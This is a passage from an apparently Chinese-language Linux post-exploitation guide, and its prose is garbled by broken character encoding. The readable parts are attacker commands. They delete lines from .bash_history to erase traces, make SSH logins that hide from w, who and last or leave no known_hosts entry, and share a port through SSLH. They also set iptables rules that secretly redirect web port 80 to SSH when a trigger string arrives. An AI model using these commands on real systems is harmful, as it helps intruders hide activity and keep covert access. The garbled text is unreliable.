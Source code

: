 ���ּ����ǹؼ���¼ɾ�����������ǿ��Ա����㣬����ǰ150�����û�������������¼��150�Ժ��ǹ����߲�����¼�����ǿ���ֻ���������Ĳ�����ɾ�������ۼ�����ʷ������¼���������ֻ����ǰ150�У�

```text
sed -i '150,$d' .bash_history
```

### 0x05 ����Զ��SSH��½��¼

## ������¼ϵͳ�����ᱻw��who��last��ָ���⵽��

```text
ssh -T root@127.0.0.1 /bin/bash -i
```

����¼ssh��Կ�ڱ���.sshĿ¼��

```text
ssh -o UserKnownHostsFile=/dev/null -T user@host /bin/bash �Ci
```

### 0x06 �˿ڸ���

ͨ���˿ڸ������ﵽ���ض˿ڵ�Ŀ�ģ���Linux�£����ʵ�ֶ˿ڸ����أ�

��һ�ַ�ʽ��ͨ��SSLH��ͬһ�˿��Ϲ���SSH��HTTPS

```text
 #��װSSLH
 sudo apt-get install sslh
 #����SSLH
 �༭ SSLH �����ļ���
 sudo vi /etc/default/sslh
 1���ҵ������У�Run=no  �����޸�Ϊ��Run=yes
 2���޸������������� SSLH �����п��ýӿ��������˿� 443
 DAEMON_OPTS="--user sslh --listen 0.0.0.0:443 --ssh 127.0.0.1:22 --ssl 127.0.0.1:443 --pidfile /var/run/sslh/sslh.pid"
```

�ڶ��ַ�ʽ������IPTables���ж˿ڸ���

```text
# �˿ڸ�����
iptables -t nat -N LETMEIN
# �˿ڸ��ù���
iptables -t nat  -A LETMEIN -p tcp -j REDIRECT --to-port 22
# ��������
iptables -A INPUT -p tcp -m string --string 'threathuntercoming' --algo bm -m recent --set --name letmein --rsource -j ACCEPT
# �رտ���
iptables -A INPUT -p tcp -m string --string 'threathunterleaving' --algo bm -m recent --name letmein --remove -j ACCEPT
# let's do it
iptables -t nat -A PREROUTING -p tcp --dport 80 --syn -m recent --rcheck --seconds 3600 --name letmein --rsource -j LETMEIN
```
